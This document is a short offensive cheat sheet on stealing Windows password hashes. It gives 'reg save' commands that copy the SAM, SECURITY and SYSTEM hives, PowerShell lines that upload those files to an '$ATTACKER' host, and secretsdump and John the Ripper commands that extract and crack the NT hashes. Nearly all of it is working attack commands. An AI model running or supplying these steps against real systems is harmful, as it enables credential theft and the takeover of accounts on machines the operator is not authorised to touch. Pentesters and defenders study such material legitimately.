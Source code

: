 # SAM / SYSTEM / SECURITY

The Windows passwords are stored encrypted in the SAM file \(`C:Windows\System32\config\`\). The SYSTEM file is in the same folder and contains the bootkey to decrypt it.

These two files are locked by the kernel when the operating system is up, so to access the passwords there are a few options:

* mount the disk when the system is down
* use tools to dump the hashes in memory
* get the twin files backed up for recovery at `C:\Windows\Repair`. 

## Dump hashes from memory

```text
reg save hklm\sam sam.save
reg save hklm\security security.save
reg save hklm\system system.save
```

```text
powershell (New-Object System.Net.WebClient).UploadFile('http://$ATTACKER/upload.php','sam.save')
powershell (New-Object System.Net.WebClient).UploadFile('http://$ATTACKER/upload.php','security.save')
powershell (New-Object System.Net.WebClient).UploadFile('http://$ATTACKER/upload.php','system.save')
```

```text
$ ftp $TARGET
ftp> bin
200 Type set to I.

ftp> get sam.save
ftp> get security.save
ftp> get system.save
```

```text
secretsdump.py -sam sam.save -security security.save -system system.save LOCAL > dump.hash
sudo john --wordlist=/usr/share/wordlists/rockyou.txt dump.hash --format=NT
sudo john --show --format=NT dump.hash
```



